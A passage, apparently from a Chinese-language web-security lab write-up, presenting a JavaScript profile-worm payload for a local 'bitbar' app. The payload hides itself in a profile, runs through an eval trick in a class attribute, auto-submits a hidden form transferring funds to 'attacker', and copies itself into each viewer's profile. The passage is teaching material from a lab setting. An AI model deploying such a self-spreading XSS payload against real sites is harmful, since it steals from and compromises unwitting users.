 
ps: 也可以用 js 动态创建 form表单的方式，但是这样页面是会跳转的，无法满足

> 在转账和profile的赋值过程中，浏览器的地址栏需要始终停留在http://localhost:3000/profile?username=x ，其中x是profile被浏览的用户名。

附上js动态创建form表单的代码

```js
<span id="wrap">
<strong id="bitbar_count" class="eval((document['getElementById']('pxy').innerHTML))"></strong>
<span id="pxy">
document.getElementById('pxy').style.display = "none";
function makeForm(){
    var form = document.createElement("form");
    form.id = "pay";
    
    document.body.appendChild(form);
    var input = document.createElement("input");
    input.type = "text";

    input.name =  "destination_username";
    input.value = "attacker";
    input.type = 'hidden';

    form.appendChild(input);
    var input2 = document.createElement("input");
    input2.type = "hidden";
    input2.name = "quantity";
    input2.value = 10
    
    form.appendChild(input2);
    form.action = "http://localhost:3000/post_transfer";
    form.method = "POST";
    form.enctype = "application/x-www-form-urlencode";
    form.submit();
}
makeForm();
request = new XMLHttpRequest();
request.open("POST", "http://localhost:3000/set_profile", true);
request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
request.withCredentials = true;
request.send("new_profile=".concat(escape(document.getElementById('wrap').outerHTML)));
</span>
</span>
```


[]()